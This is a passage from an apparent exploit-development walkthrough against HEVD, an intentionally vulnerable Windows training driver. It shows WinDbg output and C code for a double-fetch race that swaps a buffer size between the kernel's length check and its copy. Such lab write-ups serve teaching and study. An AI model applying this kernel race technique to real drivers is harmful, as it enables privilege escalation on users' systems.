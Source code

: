 Let's put a breakpoint at offset `HEVD+0x8681c` and run the code again:

```
1: kd> g
Breakpoint 0 hit
HEVD+0x8681c:
fffff801`296d681c 488bc4          mov     rax,rsp
1: kd> dq poi(rcx)
0000012e`673aeff0  41414141`41414141 41414141`41414141
0000012e`673af000  41414141`41414141 41414141`41414141
0000012e`673af010  41414141`41414141 41414141`41414141
0000012e`673af020  41414141`41414141 41414141`41414141
0000012e`673af030  41414141`41414141 41414141`41414141
0000012e`673af040  41414141`41414141 41414141`41414141
0000012e`673af050  41414141`41414141 41414141`41414141
0000012e`673af060  41414141`41414141 41414141`41414141
```

This output shows that the struct passed in to the kernel points at our buffer. We can also show the value of the `sizeOfData` field:

```
1: kd> dd rcx+8 L1
00007ff7`4d094628  00000800
```

Perfect! Now we know that the PoC is working we can move on to the tricky next phase, which is triggering the bug by winning a race!

## Winning the Race

I decided to create two threads, one for sending the normal IOCTL that should pass the buffer length check, and a second thread to try and change the buffer size before the copy operation; this is the race condition I am trying to win. To do this I set the structure changing thread to run a loop 100 times:

```c
// this is the function trying to win the race
DWORD WINAPI ChangeStruct(void* args)
{
    for (int i = 1; i < 100; i++)
    {
        userData.sizeOfData = 0xc00;
    }
    return NULL;
}

// this is the function sending the IOCTL
DWORD WINAPI SendIOCTL(void* args)
{
    userData.pBuffer = userBuffer;
    userData.sizeOfData = 0x800;
    BOOL status = DeviceIoControl(hDriver,
        0x222037, (LPVOID)&userData, sizeof(userData), NULL, 0, NULL, NULL);

    return NULL;
}
```
